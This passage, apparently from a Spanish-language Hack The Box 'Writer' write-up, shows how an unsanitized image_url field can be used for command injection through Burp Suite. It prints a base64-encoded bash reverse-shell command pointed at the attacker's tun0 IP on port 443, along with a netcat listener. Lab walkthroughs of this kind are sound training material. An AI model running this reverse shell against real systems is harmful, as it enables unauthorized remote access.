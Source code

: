 Lo enviamos al repeater, igual que antes y aquí podemos ver un campo vacío, el ```image_url```, este es el mismo campo que veíamos antes, en el script (```__init__.py```), el mismo que no está bien sanitizado

<p align="center">
<img src="/assets/images/htb-writeup-writer/img36.png">
</p>

Por lo que, por medio de este campo, podremos inyectar comandos de la siguiente manera:

 - Primero vamos a una terminal y escribimos lo siguiente:

```bash
~$> echo "bash -i >& /dev/tcp/$(ifconfig tun0 | head -n 2 | tail -n 1 | awk '{print $2}')/443 0>&1" | base64
[TU_CADENA_EN_BASE64]
```
> Todo esto -> "$(ifconfig tun0 | head -n 2 | tail -n 1 | awk '{print $2}')" solo es para poner tu ip en ese espacio

Nos ponemos en escucha desde una terminal con ```**netcat**```, por el puerto ```443```

```bash
~$> nc -nlvp 443
```
Y lo enviamos con **Burpsuite** así:

